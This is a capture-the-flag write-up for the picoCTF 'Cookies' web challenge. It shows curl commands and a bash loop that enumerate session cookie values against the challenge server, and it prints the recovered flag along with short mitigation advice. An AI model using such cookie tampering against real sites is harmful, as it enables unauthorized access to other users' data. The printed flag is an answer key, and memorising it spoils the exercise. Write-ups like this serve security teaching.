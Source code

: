 ## CTF: Web AY25
Challenge: Cookies

Category: web

Points:

Difficulty:  Introductory 

## Instructions

Who doesn't love cookies? Try to figure out the best one.

## Solution
Enter website asks to type name of a cookie.  
* inspcet and look at cookies
* when typing in normal cookie name cooike "Search" pops up doesn't seem speacial
* looking at Source code

  Found java scprit at the bottom  
  
      $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
      });

There appears to be nothing of use in the java script better to focus more on the cookies
* Try to find right type of cookie to put into the search, inorder to get the flag as a respnse
* Found this is value of session cookie 

      rlWsMzkup2uyplV6J3fvVUDvByfvMTShM2IlVvjvITuuqPOxo2Imovq0VTSjpTIupvO0olOvMFOuVUMuoTyxVTAio2gcMF4vKK1qsD

Could be encoded?  
not roll 13 or 64base.

When looking at the name of cookies that pop up when searching a cookie name.
* each cookie has a diffrent number value 
    * figure out how to find all the cookie vlaues?  
Try to use curl   

copy curl the cookie
* Change the name number till I find the flag using 

      curl 'http://mercury.picoctf.net:29649/check' \
        -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
        -H 'Accept-Language: en-US,en;q=0.9' \
        -H 'Cache-Control: max-age=0' \
        -H 'Connection: keep-alive' \
        -H 'Cookie: name=1' \
        -H 'Referer: http://mercury.picoctf.net:29649/' \
        -H 'Upgrade-Insecure-Requests: 1' \
        -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36' \
        --insecure

 I made a bash code in order to copy all they cookies into files after the cookie is curled into the server

    #!/bin/bash  
    for i in $(seq 1 25);
    do
    touch ./holds/cookie$i
    echo made dir $i
    curl -o ./holds/cookie$i 'http://mercury.picoctf.net:29649/check' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
      -H 'Accept-Language: en-US,en;q=0.9' \
      -H 'Cache-Control: max-age=0' \
      -H 'Connection: keep-alive' \
      -H "Cookie: name= ${i} " \
      -H 'Referer: http://mercury.picoctf.net:29649/' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36' \
      --insecure
    done

* Then to find which one had the flag 

      $ grep pico holds/*
      holds/cookie18: <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>

I thought of the grep after I found the flag by going into every folder and cating each file to look for the cookie. 

## Flag

picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

## Mitigation

1. Don't store valuable information on a cookie.
2. Secure the cookies only accepting cookies from encrypted channels.
